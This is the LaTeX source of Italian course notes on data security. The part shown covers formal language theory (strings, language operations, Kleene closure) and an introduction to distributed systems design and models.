\documentclass{book}
\usepackage[margin=3cm]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[italian]{babel}
\usepackage{graphicx}
\usepackage{comment}
\usepackage{listings}
\lstset{basicstyle=\ttfamily\footnotesize,breaklines=true}

\usepackage{tgpagella}
\usepackage{mdframed}
\usepackage{array}
\usepackage{textcomp} % For TS1.
\usepackage{multicol}
\usepackage{amsmath}
\usepackage{amssymb} 
\usepackage{fancyhdr}
\usepackage{multirow}
\usepackage[table,xcdraw]{xcolor}
\usepackage[section]{placeins}
\usepackage{csquotes}
\usepackage[bottom]{footmisc}
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=black,
    filecolor=black,      
    urlcolor=blue,
}
\urlstyle{same}
\pagestyle{fancy}
\renewcommand{\chaptermark}[1]{%
\markboth{\thechapter.\ #1}{}}
\fancyhead[LE,RO]{}
\input{solidity-highlighting.tex}
\setlength{\parindent}{0em}

\graphicspath{./Images}

\title{\textbf{Appunti del corso di Sicurezza dei dati}}
\author{Luca Maddaluno}
\date{A.A. 2020/2021}

\begin{document}

\maketitle

\tableofcontents

\chapter{Stringhe e linguaggi}

\section{Alfabeto}
Un alfabeto è un insieme finito di elementi (chiamati lettere
o simboli o caratteri (terminali))

\vspace{5mm}

\textbf{Esempio:} L’alfabeto delle lettere romane minuscole è
\(\Sigma = {a, b, c, \dots, z}\) 

\vspace{5mm}

\textbf{Esempio:} L’alfabeto delle cifre arabe è
\(\Sigma = {0, 1, \dots , 9}\) 

\vspace{5mm}

\textbf{Esempio:} L’alfabeto binario è
\(\Sigma = {0, 1}\) 

\vspace{5mm}

Sia \(\Sigma = {a_1, \dots, a_k}\) un alfabeto di \(k\) simboli. La cardinalità di \(\Sigma\) è \(k\). In simboli: \(|\Sigma| = k\).

Una stringa (o parola) su un alfabeto è una sequenza (finita)
di simboli dell’alfabeto.
Ossia è un insieme ordinato con eventuali ripetizioni di
caratteri.

\vspace{5mm}

\textbf{Esempio:} Sia \(\Sigma = {a, b}\).
\(aaba, aaa, abaa, b\) sono stringhe.
\vspace{5mm}

\textbf{Esempio:} 0131 `e una stringa sull’alfabeto \(\Sigma = {0, 1, 2, \dots, 9}\).
\vspace{5mm}

\textbf{Esempio:} 0101 `e una stringa sull’alfabeto \(\Sigma = {0, 1}\).

La cardinalit`a di un linguaggio (finito) `e il numero delle sue
stringhe.
\vspace{5mm}

\textbf{Esempio:}
\(|L2| = |{aba, aab}| = 2\)
Un linguaggio finito `e un linguaggio che ha un numero finito
di stringhe.
Un linguaggio infinito `e un linguaggio non finito.
Un esempio di linguaggio finito: il linguaggio vuoto \(\emptyset\).
\(|\emptyset| = 0\).

Nota: non solo linguaggi finiti.
Infatti i linguaggi finiti non sono di solito interessanti.
Tutti i nostri alfabeti sono finiti, ma la maggior parte dei
linguaggi che incontreremo sono infiniti.

\section{Stringhe}
Il numero di occorrenze di un carattere a in una stringa \(x\)
viene indicato da \(|x|_a\).
\vspace{5mm}

\textbf{Esempio:}
\[|aab|_a = 2, |baa|_a = 2, |baa|_b = 1, |baa|_c = 0\]
La lunghezza di una stringa \(x\) `e il numero di simboli in \(x\).
La lunghezza di \(x\) `e denotata con \(|x|\).
\textbf{Esempio}: \(|ab| = 2, |abaa| = 4\).

Due stringhe
\[x = a_{1}a_{2} \dots a_{h}, y = b_{1}b_{2} \dots b_{k} ,\]
con \(a_{i}, b_{j} \in \Sigma, 1 \leq i \leq h, 1 \leq j \leq k\), si dicono eguali se \(h = k e a_i = b_i\)
, per \(i = 1, \dots , h\).
In due stringhe uguali i caratteri letti ordinatamente da
sinistra a destra coincidono.
Esempio: \(aba \neq baa, baa \neq ba\).

\subsection{Operazioni sulle stringhe}
Date le stringhe
\[x = a_{1}a_{2} \dots a_{h}, y = b_{1}b_{2} \dots b_k ,\]
con \(a_i, b_j \in \Sigma, 1 \leq i \leq h, 1 \leq j \leq k\), la concatenazione (di
\(x\) e \(y\)) `e definita da
\[x \dot y = a_{1}a_{2} \dots a_{h}b_{1}b_{2} \dots b_{k}\]
La concatenazione di due stringhe \(x\) e \(y\) `e spesso denotata \(xy\)
(invece che \(x \dot y\)).
\vspace{5mm}
\textbf{Esempio:} \(x =\) vice, \(y =\) capo, \(z =\) stazione \(xy =\) vicecapo,
\(yx =\) capovice \(\neq xy\)
\((xy)z =\) vicecapostazione \(= x(yz)\)

La concatenazione non `e commutativa, in generale \(xy \neq  yx\).
La concatenazione `e associativa:
\[(xy)z = x(yz)\]
(possiamo scrivere senza parentesi la concatenazione di tre o
pi`u stringhe).
\(|xy| = |x| + |y|\)

La stringa vuota \(\epsilon\) `e la stringa che non contiene nessun
simbolo.
Propriet`a della stringa vuota:
\[x \epsilon = \epsilon x = x\]
\[|\epsilon| = 0\]
Nota :
\[\emptyset \neq \epsilon, \emptyset \neq \{\epsilon\}\]

\textbf{Definizione.} Data una stringa \(x\), una sottostringa di \(x\) `e una qualsiasi
sequenza di simboli consecutivi della stringa \(x\). Un prefisso di
\(x\) `e una qualsiasi sequenza di simboli consecutivi iniziali della
stringa \(x\). Un suffisso di \(x\) `e una qualsiasi sequenza di simboli
consecutivi terminali della stringa \(x\).
Se \(x = uyv\) `e la concatenazione di stringhe \(u\), \(y\), \(v\)
(eventualmente vuote) allora:
\begin{itemize}
    \item \(y\) `e una \textbf{sottostringa} di \(x\),
    \item \(u\) `e un \textbf{prefisso} di \(x\),
    \item \(v\) `e un \textbf{suffisso} di \(x\)
\end{itemize}
Una sottostringa (prefisso, suffisso) di \(x\) `e \textbf{propria} se non
coincide con \(x\).

Esempio: La stringa 472 ha
\begin{itemize}
    \item prefissi: \(epsilon\), 4, 47, 472,
    \item suffissi: \(epsilon\), 2, 72, 472,
    \item sottostringhe: \(epsilon\), 4, 7, 2, 47, 72, 472
    \item La stringa 42 non `e sottostringa di 472.
\end{itemize}

L’inversa (o reverse o riflessione) \(w^R\) di una stringa \(w\) `e la stringa
ottenuta scrivendo i caratteri di \(w\) da destra verso sinistra.
\(\epsilon^R = \epsilon\) e se \(w = a_1 \dots a_n\), con \(a_j\)
lettere, allora
\(w^R = a_n, a_{n-1} \dots a_1\).
\textbf{Esempio:} x = roma, \(x^R\) = amor.
Propriet`a:
\[(x^R)^R = x, (xy)^R = y^Rx^R\]

\begin{itemize}
    \item PASSO BASE: \(\epsilon^R = \epsilon\).
    \item PASSO RICORSIVO: Per ogni \(x \in \Sigma*\) e \(\sigma \in \Sigma\), \((x\sigma)^R = \sigma x^R\).
\end{itemize}

Sia \(m \geq 1\) un intero. La potenza m-esima di una stringa \(x\) `e
la concatenazione di \(x\) con s´e stessa \(m - 1\) volte.
Per convenzione la potenza 0 di una stringa `e la stringa vuota.

\vspace{5mm}

\textbf{Definizione}: Sia \(x\) una stringa. Poniamo:
\begin{itemize}
    \item PASSO BASE: \(x^0 = \epsilon\)
    \item PASSO RICORSIVO: \(x^m = x^{m-1}x\), per \(m > 0\).
\end{itemize}
\textbf{Esempi}:
\begin{itemize}
    \item \(x = ab\)
    \item \(x^0 = \epsilon\)
    \item \(x^1 = x = ab\)
    \item \(x^2 = (ab)^2 = abab\)
    \item \(y = a^2 = aa\)
    \item \(y^3 = a^{2}a^{2}a^{2} = a^6\)
    \item \(\epsilon^0 = \epsilon\)
    \item \(\epsilon^2 = \epsilon\)
\end{itemize}
Nota. E necessario racchiudere tra parentesi la stringa da `
elevare alla potenza se ha lunghezza maggiore di uno.
\[(ab)^2 = abab \neq abb = ab^2\]
L’elevamento a potenza ha precedenza rispetto alla
concatenazione.
Anche la riflessione ha precedenza rispetto alla
concatenazione.
\(b^R = b\), quindi \(ab^R = ab\), mentre \((ab)^R = ba \neq ab^R = ab\)

\section{Linguaggi}
Data un’operazione su una stringa, essa si pu`o estendere a
tutte le stringhe di un linguaggio.
Otteniamo cos`ı alcune operazioni sui linguaggi.

La riflessione di un linguaggio L:
\[L^R = \{x | x = y^R \wedge y \in L\}\]
L’insieme dei prefissi propri di un linguaggio L:
\begin{center}
Prefissi(L) = \(\{y | x = yz \wedge x \in L \wedge z \neq \epsilon\}\)
\end{center}

Un linguaggio `e prefisso se non contiene nessuno dei suoi
prefissi propri.
Un linguaggio L `e prefisso se e solo se
\(L \cap\) Prefissi(L) \(= \emptyset\)
Importanza pratica: se nella trasmissione dell’informazione
una parte finale della stringa viene accidentalmente troncata,
l’errore viene individuato.
Nella codifica dell’informazione la decodifica `e immediata.

\textbf{Esempio.} \(L_1 = \{a^{n}b^{n}| n \geq 1\}\) `e prefisso perch´e
Prefissi\((L_1) = \{a^{n}b^{m} | n > m \geq 1\} \cup \{a^{n}| n \geq 0\}\).

\vspace{5mm}

\textbf{Esempio.} \(L_2 = {a^{m}b^{n}| m \geq n \geq 1}\) non `e prefisso perch´e,ad esempio, \(a^{3}b^{2}\) e \(a^{3}b\) sono entrambi in \(L2\).

\vspace{5mm}

\textbf{Esempio.} Ogni linguaggio L che contiene la stringa vuota \(\epsilon\) e
tale che \(L \neq {\epsilon}\) non `e prefisso.

Anche le operazioni su due stringhe possono essere estese a
due linguaggi.

\subsection{Operazioni sui linguaggi}
Anche le operazioni su due stringhe possono essere estese a
due linguaggi.
\subsubsection{Prodotto di linguaggi}
Dati due linguaggi $L^{\prime}$ ed $L^{\prime \prime}$ sull'alfabeto $\Sigma$, il prodotto (o concatenazione) di $L^{\prime}$ ed $L^{\prime \prime}$ è
$$
L^{\prime} L^{\prime \prime}=L^{\prime} \circ L^{\prime \prime}=\left\{x y \mid x \in L^{\prime} \wedge y \in L^{\prime \prime}\right\}
$$
$L^{\prime} L^{\prime \prime}$ è l'insieme di tutte le stringhe che sono concatenazione di una stringa in $L^{\prime}$ e di una stringa in $L^{\prime \prime}$.
Esempio. Siano
$$
\begin{gathered}
L_{1}=\left\{a^{i} \mid i \geq 0, \text { pari }\right\} \\
L_{2}=\left\{b^{j} a \mid j \geq 1, \text { dispari }\right\}
\end{gathered}
$$
risulta
$$
L_{1} L_{2}=\left\{a^{i} b^{j} a \mid(i \geq 0, \text { pari }) \wedge(j \geq 1, \text { dispari })\right\}
$$
Esempi di stringhe in $L_{1} L_{2}$ :
$$
b a, a^{2} b a, a^{4} b a, b^{3} a, a^{2} b^{3} a, a^{4} b^{3} a
$$
\subsubsection{Potenza di un linguaggio}
Sia L un linguaggio sull'alfabeto $\Sigma$. Definiamo:
$$
\begin{aligned}
L^{0} &=\{\epsilon\}, \\
L^{k} &=L^{k-1} L, \quad k \geq 1
\end{aligned}
$$
Nota.
$$
\begin{aligned}
&L^{1}=L \\
&L^{k}=\left\{w_{1} w_{2} \ldots w_{k} \mid w_{i} \in L, 1 \leq i \leq k\right\}, k \geq 0
\end{aligned}
$$
\textbf{Casi particolari:} 
$$
\emptyset^{0} =\{\epsilon\} 
$$
$$
L \cdot \emptyset =\emptyset \cdot L=\emptyset 
$$
$$
L \cdot\{\epsilon\} =\{\epsilon\} \cdot L=L
$$

Nota. Dato un linguaggio $L$ e un intero $m \geq 2$ consideriamo
- il linguaggio $\left\{x^{m} \mid x \in L\right\}$ che ha come elementi le potenze $m$-esime degli elementi di $L$,
- la potenza $m$-esima $L^{m}$ di $L$.
$$
\left\{x^{m} \mid x \in L\right\} \subseteq L^{m}
$$
In generale il primo è incluso ma è diverso dal secondo.
Esempio
$$
L=\{a, b\}, \quad\left\{x^{2} \mid x \in L\right\}=\{a a, b b\}, \quad L^{2}=\{a a, b b, a b, b a\}
$$
Nota. Dato un linguaggio $L$ e un intero $m \geq 2$, in generale $\left\{x^{m} \mid x \in L\right\}$ è incluso strettamente in $L^{m}$.
Cosa accade per $m=0$ ?
Cosa accade per $m=1$ ?
Esistono linguaggi $L$ tali che $\left\{x^{m} \mid x \in L\right\}=L^{m}$ con $m \geq 2$ ?
L'operatore di potenza permette di definire in modo espressivo il linguaggio delle stringhe di lunghezza non superiore a un intero $k$.
Esempio. Sia $\Sigma=\{a, b\}$ e $k=3$.
$$
\begin{aligned}
L &=\left\{w \in \Sigma^{*}|| w \mid \leq 3\right\} \\
&=\{\epsilon, a, b, a a, a b, b a, b b, a a a, a a b, a b a, a b b, b a a, b a b, b b a, b b b\}
\end{aligned}
$$
Altre espressioni per L:
$$
\begin{aligned}
&L=\Sigma^{0} \cup \Sigma^{1} \cup \Sigma^{2} \cup \Sigma^{3} \\
&L=\{\epsilon, a, b\}^{3} \\
&L^{\prime}=\left\{w \in \Sigma^{*}|1 \leq| w \mid \leq 3\right\}=\{a, b\}\{\epsilon, a, b\}^{2}
\end{aligned}
$$
\subsubsection{Operazioni sui linguaggi - operazioni insiemistiche}
I linguaggi sono insiemi. Quindi le operazioni insiemistiche di unione, intersezione, differenza, complemento sono definite anche per i linguaggi in quanto insiemi di stringhe;
come pure le relazioni di inclusione $(\subseteq)$, di inclusione stretta (C) e di eguaglianza (=).
\subsubsection{Operazioni sui linguaggi - differenza}
Se $L_{1}$ ed $L_{2}$ sono due linguaggi su un alfabeto $\Sigma$, la differenza $L_{1}-L_{2}$ di $L_{1}$ ed $L_{2}$ è
$$
L_{1}-L_{2}=\left\{w \in L_{1} \mid w \notin L_{2}\right\} .
$$
Notazione alternativa: $L_{1} \backslash L_{2}$.
$$
\begin{aligned}
&\Sigma=\{a, b, c\} \\
&L_{1}=\left\{\left.x|| x\right|_{a}=|x|_{b}=|x|_{c} \geq 0\right\} \\
&L_{2}=\left\{x \mid\left(|x|_{a}=|x|_{b} \geq 0\right) \wedge\left(|x|_{c}=1\right)\right\} \\
&L_{1}-L_{2}=\{\epsilon\} \cup\left\{\left.x|| x\right|_{a}=|x|_{b}=|x|_{c} \geq 2\right\} \\
&L_{2}-L_{1}=\left\{\left.x|| x\right|_{a}=|x|_{b} \neq|x|_{c}=1\right\}
\end{aligned}
$$
\subsubsection{Operazioni sui linguaggi - complemento}
Per parlare del complemento di un linguaggio (su un alfabeto $\Sigma)$ si deve introdurre un linguaggio universale, definito come l'insieme di tutte le stringhe su un alfabeto $\Sigma$.

L'insieme $\Sigma^{*}$ di tutte le stringhe su un alfabeto $\Sigma$ è l'unione di tutte le potenze dell'alfabeto.
$$
L_{\text {universale }}=\Sigma^{*}=\cup_{n \geq 0} \Sigma^{n}
$$
Se $L \subseteq \Sigma^{*}$, il complemento $\bar{L}$ di $L$ è
$$
L=\Sigma^{*}-L=\left\{w \in \Sigma^{*} \mid w \notin L\right\}
$$
Notazione alternativa: $\neg L$.
Esempio. Alfabeto: $\{a, b\}$
Linguaggio $L=\left\{w \in\{a, b\}^{*} \mid\right.$ la prima lettera di $w$ è $\left.b\right\}$ L: ?

$\bar{L}$: insieme delle stringhe su $\{a, b\}$ che non iniziano con $b$. N.B.:NON insieme stringhe che iniziano con a (es. stringa vuota $\epsilon \in \bar{L})$
II complemento di un linguaggio finito è sempre infinito.
Esempio. Alfabeto: $\{a, b\}$
Linguaggio: insieme delle stringhe di una qualsiasi lunghezza tranne che due.
$$
\bar{\{a, b\}^{2}}=\{\epsilon\} \cup\{a, b\} \cup\left(\cup_{n \geq 3}\{a, b\}^{n}\right)
$$
Non è detto però che il complemento di un linguaggio infinito sia finito.
Esempio. Alfabeto: $\{a\}$
$$
\begin{aligned}
&L=\left\{a^{2 n} \mid n \geq 0\right\} \\
&\bar{L}=\left\{a^{2 n+1} \mid n \geq 0\right\}
\end{aligned}
$$
\subsubsection{Operazioni sui linguaggi - star di Kleene}
A eccezione dell'operazione di complemento, le operazioni finora viste non permettono una descrizione finita di linguaggi infiniti. Questo è possibile mediante l'operazione star.
Chiusura di Kleene (o Kleene star o star o stella di Kleene)
Definizione
La chiusura di Kleene (o Kleene star o star) di un linguaggio L è l'unione di tutte le potenze del linguaggio:
$$
L^{*}=\bigcup_{n \in \mathbb{N}, n \geq 0} L^{n}
$$

Nota. $L^{*}$ è il linguaggio delle stringhe ottenute concatenando un numero qualsiasi di stringhe di $L$ :
$$
L^{*}=\left\{w_{1} w_{2} \ldots w_{k} \mid k \geq 0, w_{i} \in L, 1 \leq i \leq k\right\}
$$
Nota. Se $k=0, w_{1} w_{2} \ldots w_{k}=\epsilon$ è la stringa vuota.

Esempio. Dato $L=\{a b, b a\}$, ogni stringa non vuota in $L^{*}$ è la concatenazione di parole uguali ad $a b$ o a ba.
$$
L^{*}=\left\{(a b)^{n_{1}}(b a)^{m_{1}} \cdots(a b)^{n_{h}}(b a)^{m_{h}} \mid h \geq 0, n_{i}, m_{i} \geq 0, i=1, \ldots, h\right\}
$$

Nota.
$$
\emptyset^{*}=\{\epsilon\}, \quad\{\epsilon\}^{*}=\{\epsilon\}
$$
I linguaggi $\emptyset,\{\epsilon\}$ sono gli unici tali che la loro chiusura di Kleene è un linguaggio finito. Altrimenti, anche se $L$ è finito, $L^{*}$ è infinito.

- Se il linguaggio è un alfabeto $\Sigma$, la sua chiusura di Kleene $\Sigma^{*}$ è il linguaggio universale.

- Un linguaggio formale $L$ su un alfabeto $\Sigma$ è un sottoinsieme di $\Sigma^{*}: L \subseteq \sum^{*} .$

- A volte $L^{*}$ coincide con $L$.

Esempio Se $L=\left\{a^{2 n} \mid n \geq 0, n \in \mathbb{N}\right\}$, allora $L^{*}=\left\{a^{2 n} \mid n \geq 0, n \in \mathbb{N}\right\}=L .$

\subsubsection{Proprietà chiusura di Kleene}
\begin{itemize}
    \item $L \subseteq L^{*}$ (monotonicità)
    \item $\left(x \in L^{*} \wedge y \in L^{*}\right) \rightarrow x y \in L^{*}$ (chiusura rispetto alla concatenazione)
    \item $\left(L^{*}\right)^{*}=L^{*}$ (idempotenza)
    \item $\left(L^{*}\right)^{R}=\left(L^{R}\right)^{*}($ commutatività di star e riflessione $)$
\end{itemize}
Esempio Se $L=\left\{a^{2 n} \mid n \geq 0, n \in \mathbb{N}\right\}$, allora $L=\{\text { aa }\}^{*}$. Quindi
$$
\begin{aligned}
L^{*} &=\left\{a^{2 n} \mid n \geq 0, n \in \mathbb{N}\right\}^{*} \\
&=\left(\{a a\}^{*}\right)^{*} \\
&=\{a a\}^{*}=L
\end{aligned}
$$
per la proprietà di idempotenza.
\subsubsection{Identificatori}
Molti linguaggi di programmazione assegnano nomi o identificatori agli oggetti (variabili, sottoprogrammi, ecc.) utilizzati.
Una regola comune a molti linguaggi dice che un identificatore è una stringa che inizia con una lettera in $\{A, B, \ldots, Z\}$ seguita da un numero qualsiasi di lettere e cifre in $\{0,1, \ldots, 9\}$.
Esempio SOMMA32A35.

Definiti gli alfabeti
$$
\Sigma_{A \ell}=\{A, B, \ldots, Z\}, \quad \Sigma_{N}=\{0,1, \ldots, 9\}
$$
il linguaggio $I \subseteq\left(\Sigma_{A \ell} \cup \Sigma_{N}\right)^{*}$ degli identificatori risulta:
$$
I=\Sigma_{A \ell}\left(\Sigma_{A \ell} \cup \Sigma_{N}\right)^{*}
$$

Sia $I_{5}$ il linguaggio degli identificatori di lunghezza al più $5 .$ Posto $\Sigma=\Sigma_{A \ell} \cup \Sigma_{N}$, risulta
$$
\begin{aligned}
I_{5} &=\Sigma_{A \ell}\left(\Sigma^{0} \cup \Sigma^{1} \cup \Sigma^{2} \cup \Sigma^{3} \cup \Sigma^{4}\right) \\
&=\Sigma_{A \ell}\left(\{\epsilon\} \cup \Sigma \cup \Sigma^{2} \cup \Sigma^{3} \cup \Sigma^{4}\right) \\
&=\Sigma_{A \ell}(\{\epsilon\} \cup \Sigma)^{4}
\end{aligned}
$$

\subsubsection{Chiusura positiva o croce}
Una operazione utile (ma non indispensabile) è la chiusura positiva (o croce).

Per un linguaggio L sull'alfabeto $\Sigma$, definiamo
$$
L^{+}=\bigcup_{n \in \mathbb{N}, n>0} L^{n}
$$
La chiusura positiva si distingue dalla chiusura di Kleene perché nell'unione non compare la potenza di $L$ con esponente zero $L^{0}=\{\epsilon\}$.
Valgono le relazioni
$$
L^{+} \subseteq L^{*}
$$
$\epsilon \in L^{+}$se e solo se $\epsilon \in L$
$$
L^{+}=L L^{*}=L^{*} L
$$

Esempio. Dato $L=\{a b, b a\}$, ogni stringa in $L^{+}$è la concatenazione di parole uguali ad $a b$ o a ba.
$$
L^{+}=\left\{(a b)^{n_{1}}(b a)^{m_{1}} \cdots(a b)^{n_{h}}(b a)^{m_{h}} \mid h>0, n_{i}, m_{i} \geq 0, \exists j n_{j}+m_{j} \neq 0\right\}
$$

Esempio.
$$
\{\epsilon, a a\}^{+}=\left\{a^{2 n} \mid n \geq 0, n \in \mathbb{N}\right\}=\{a a\}^{*}
$$
Esempio. Le stringhe di lunghezza almeno quattro:
$$
\Sigma^{4} \Sigma^{*}=\left(\Sigma^{+}\right)^{4}
$$

\subsubsection{Quoziente}
Le operazioni sui linguaggi finora viste non possono essere utilizzate per accorciare le stringhe del linguaggio/dei linguaggi su cui operano.
L'operazione di quoziente (destro) accorcia una stringa del primo linguaggio cancellandone un suffisso appartenente al secondo.

Il quoziente (destro) di L' rispetto ad L" è definito come
$$
\begin{aligned}
L=L^{\prime}\left(L^{\prime \prime}\right)^{-1} &=\left\{y \mid\left(x=y z \in L^{\prime}\right) \wedge\left(z \in L^{\prime \prime}\right)\right\} \\
&=\left\{y \mid \text { esiste } z \in L^{\prime \prime} \text { tale che } y z \in L^{\prime}\right\}
\end{aligned}
$$
Notazione alternativa: $L^{\prime} /{ }_{D} L^{\prime \prime}$

Esempio. Siano
$$
L^{\prime}=\left\{a^{2 n} b^{2 n} \mid n \in \mathbb{N}, n>0\right\}, \quad L^{\prime \prime}=\left\{b^{2 n+1} \mid n \in \mathbb{N}, n \geq 0\right\}
$$
$$
\begin{gathered}
L^{\prime}\left(L^{\prime \prime}\right)^{-1}=\left\{a^{r} b^{s} \mid r, s \in \mathbb{N},(r \geq 2, \text { pari }) \wedge(1 \leq s<r, s \text { dispari })\right\} \\
L^{\prime \prime}\left(L^{\prime}\right)^{-1}=\emptyset
\end{gathered}
$$

Esiste un'operazione duale, il quoziente sinistro $L^{\prime} / s L^{\prime \prime}$ che accorcia una stringa del primo linguaggio cancellandone un prefisso appartenente al secondo.
$$
L=\left(L^{\prime \prime}\right)^{-1} L^{\prime}=\left\{z \mid\left(x=y z \in L^{\prime}\right) \wedge\left(y \in L^{\prime \prime}\right)\right\}
$$
Notazione alternativa: $L^{\prime} / { }_{S} L^{\prime \prime}$

\let\cleardoublepage\clearpage

\chapter{Sistemi distribuiti}
I sistemi distribuiti risolvono tutti quei problemi che possono sorgere quando ci sono serie eterogenee di macchine interconnesse tra la rete. Una prima definizione di sistema distribuito può essere la seguente:

\vspace{5mm}

\enquote{\textit{"Il mio programma gira su un sistema distribuito quando non funziona per colpa di una macchina di cui non ho mai sentito parlare."}} (L. Lamport).

\vspace{5mm}


Questa definizione porta a stabilire le seguenti caratteristiche:
\begin{itemize}
    \item concorrenza dei componenti, ovvero macchine in esecuzione contemporanea;
    \item componenti appartenenti a diversi domini organizzativi e amministrativi;
    \item possibilità di guasti indipendenti dei componenti;
    \item le macchina sono autonome (hardware), ma l'utente crede di lavorare su una sola macchina(software).
\end{itemize}

Una definizione più formale di sistema distribuito è riportata da G. Coulouris et al:

\vspace{5mm}

\enquote{\textit{"Un sistema distribuito è un sistema i cui componenti, localizzati in computer connessi in rete, comunicano e coordinano le loro azioni solo attraverso scambi di messaggi."}}


\vspace{5mm}

Le caratteristiche definite qui invece sono:
\begin{itemize}
    \item concorrenza dei componenti;
    \item assenza di un clock globale: la sincronizzazione e l'interazione avviene attraverso lo scambio di messaggi;
    \item possibilità di guasti nei componenti, in particolare ci possono essere due tipi di guasti: quelli riguardanti i nodi (crash), e quelli riguardanti il sottosistema dello scambio di messaggi (ritardi, perdita, attacchi).
\end{itemize}

La rete Internet è un esempio di sistema distribuito, dove diversi processi connessi da reti di vario tipo si scambiano messaggi tramite protocolli di comunicazione. 
\section{Progettazione di sistemi distribuiti}
La progettazione di sistemi distribuiti va affrontata in modo particolare in quanto presenta importanti fattori di complessità. Un primo fattore da considerare è l'\textbf{eterogeneità}, ovvero della differenza di reti, sistemi operativi, hardware e linguaggi di programmazione. Non a caso la caratteristica che accomuna due o più macchine che fanno parte di uno stesso sistema distribuito è il Middleware. Un altro aspetto importante è l'\textbf{apertura}(\textit{openness}): il livello di complessità con il quale servizi e risorse condivise possono essere resi accessibili a una varietà di clienti, o resi tra loro interoperanti.
I sistemi aperti infatti richiedono adeguati test di conformità, standard condivisi e interfacce\footnote{Un'interfaccia è una specifica dei servizi offerti e indica come chiamarli.} pubbliche dei componenti. Un sistema distribuito aperto offre servizi secondo regole standard per descrivere la sintassi (come si chiama) e la semantica (cosa fa) di un servizio. Le regole sono di solito specificate attraverso suddette interfacce, che specificano i nomi delle funzioni disponibili e la loro intestazione.
Le proprietà che un'interfaccia dovrebbe possedere sono:
\begin{itemize}
    \item \textbf{completezza}: specifica tutto quello che è necessario per implementarla;
    \item \textbf{neutralità}: non dà informazioni su come deve apparire un implementazione.
\end{itemize}
Queste importanti caratteristiche influenzano l'interoperabilità e la portabilità, in quanto due implementazioni costruite diversamente possono coesistere e lavorare insieme, e un'eventuale applicazione sviluppata per un sistema distribuito A può essere eseguita su un sistema B.

\vspace{5mm}

Un altro fattore di complessità molto importante è la \textbf{sicurezza}: un sistema distribuito, essendo aperto a tutti, è più soggetto ad attacchi e per questo vanno rispettate le norme di sicurezza indicate nella triade CIA:
\begin{itemize}
    \item \textbf{Confidentiality}: protezione dall'accesso da parte di utenti non autorizzati;
    \item \textbf{Integrity}: protezione dall'alterazione o compromissione;
    \item \textbf{Availability}: protezione dall'interferenza con i mezzi di accesso alle risorse.
\end{itemize}
La sicurezza è importante così come la \textbf{concorrenza}: l'accesso a risorse e servizi condivisi deve essere consentito in maniera virtualmente simultanea a più utenti. Inoltre se lo stesso dato è presente in altri posti della rete per ridurre la latenza, al variare di questo dato tutte le copie devono essere aggiornate per garantire consistenza dei dati.

Un sistema distribuito poi deve garantire \textbf{trasparenza}: i suoi processi e risorse devono apparire all'utente come parti di una singola macchina e non come risorse distribuite. I concetti riguardanti la trasparenza possono essere così divisi:
\begin{itemize}
    \item Trasparenza di accesso: nascondere le differenze di rappresentazione dei dati e del modo in cui gli utenti accedono alle risorse;
    \item Trasparenza di locazione: nascondere la locazione fisica di una risorsa;
    \item Trasparenza di migrazione: permettere il continuo accesso a risorse che possono essere spostate;
    \item Trasparenza di duplicazione: nascondere la duplicazione delle risorse per migliorare le prestazioni;
    \item Trasparenza di concorrenza: nascondere agli utenti che competono per le stesse risorse;
    \item Trasparenza ai fallimenti: nascondere all'utente eventuali guasti di risorse\footnote{Si noti che i fallimenti non comprendono gli attacchi: in questo caso è giusto che vengano notificati agli utenti.};
    \item Trasparenze alla persistenza: nascondere il tipo di memoria su cui si trova la risorsa.
\end{itemize}
Un altro fattore da prendere in considerazione è la \textbf{scalabilità}: un sistema è scalabile se resta efficace ed efficiente anche a seguito di un aumento considerevole di utenti o risorse. La scalabilità di un sistema può essere misurato rispetto alla scala (orizzontale e verticale), geograficamente, in quanto utenti e risorse possono essere fisicamente molto distanti, e dal punto di vista amministrativo: facile da gestire anche in presenza di organizzazioni amministrative indipendenti.

Infine, per la progettazione di sistemi distribuiti è importante la \textbf{flessibilità}: un sistema distribuito flessibile deve rendere semplice la configurazione di sistema e l'aggiunta o la rimozione di nuovi componenti.
\section{Modelli di sistemi distribuiti}
Il mondo dei sistemi distribuiti si basa su macchine eterogenee, ed è facile immaginare che siano molto diverse tra di loro. Per non descrivere ogni volta le caratteristiche di ogni macchina si fa riferimento a dei modelli. Un modello descrive tutte e sole le caratteristiche essenziali di un sistema distribuito, che è necessario considerare per specificare o analizzare i suoi aspetti strutturali e di funzionamento.

Un modello risponde a domande del tipo:
\begin{itemize}
    \item Quali sono le principali entità del sistema?
    \item Quali sono le modalità di interazione tra essi?
    \item Quali sono le caratteristiche che determinano il comportamento individuale e collettivo delle entità?
\end{itemize}
Per la specifica, l'analisi e lo sviluppo di sistemi distribuiti servono modelli architetturali, modelli fondamentali e modelli di programmazione. I modelli descrivono le proprietà delle unità software secondo cui decomporre e programmare i sistemi distribuiti, e l'organizzazione del sistema distribuito nelle sue parti componenti, le relazioni tra esse e la loro allocazione sui nodi del sistema di elaborazione.

Un \textbf{modello fondamentale} è un'astrazione delle caratteristiche essenziali di un sistema, necessarie per analizzare e comprenderne il funzionamento, e dimostrarne formalmente le proprietà. Gli scopi di un modello fondamentale principalmente sono quelli di rendere esplicite le ipotesi rilevanti sul sistema e consentire di studiare proprietà possibili e impossibili del sistema.

\vspace{5mm}

Un sistema distribuito è composto da processi, ovvero da entità che eseguono azioni elaborative, in esecuzione su più nodi del sistema di elaborazione, ciascuno dotato di un proprio orologio, che incapsulano risorse ed interagiscono esclusivamente tramite messaggi scambiati su un canale di comunicazione. Tuttavia, il modo di comunicare in un sistema distribuito non si limita solo allo scambio di messaggi. 

Lo stato di un processo è l'insieme dei dati che può leggere o aggiornare ed è locale e privato: non può essere letto e aggiornato dagli altri processi. Inoltre come già detto non esiste un clock globale, e infatti la velocità dei processi e i tempi di trasmissione dei messaggi tipicamente non possono essere previsti con esattezza. 
Distinguiamo tre modelli di interazione:
\begin{itemize}
    \item sistema sincrono;
    \item sistema asincrono;
    \item sistema parzialmente sincrono.
\end{itemize}
Un sistema distribuito è formato da più CPU, ma queste possono essere organizzate in modo diverso, ovvero come multiprocessori, in cui un unico spazio di indirizzi fisici è condiviso da tutte le CPU (memoria condivisa), oppure come multicomputer, nel quale ogni macchina ha il suo indirizzo fisico.

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.1.png}
    \label{fig:image2.1}
\end{figure}

